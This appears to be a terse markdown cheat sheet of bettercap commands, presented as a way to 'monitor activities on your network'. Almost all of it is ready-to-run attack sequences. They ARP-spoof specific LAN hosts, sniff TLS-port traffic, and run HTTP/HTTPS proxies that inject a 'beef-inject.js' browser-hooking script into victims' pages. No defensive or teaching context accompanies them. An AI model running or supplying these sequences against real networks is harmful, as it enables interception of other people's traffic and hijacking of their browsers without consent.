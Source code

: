 # monitor activities on your network

- open

```
bettercap
net.probe on
sleep 1
net.probe off
set arp.spoof.targets 192.168.50.25
set http.proxy.script beef-inject.js
http.proxy on
sleep 1
arp.spoof on
```





- who's on the network

```
net.probe on
clear
ticker on
```

- sniff

```
net.probe on
sleep 1
net.probe off
set net.sniff.verbose false
set net.sniff.local true
set net.sniff.filter tcp port 443
net.sniff on
```

set target

```
set arp.spoof.targets 192.168.50.150
```

run
```
http.proxy on
https.proxy on
arp.spoof on
```
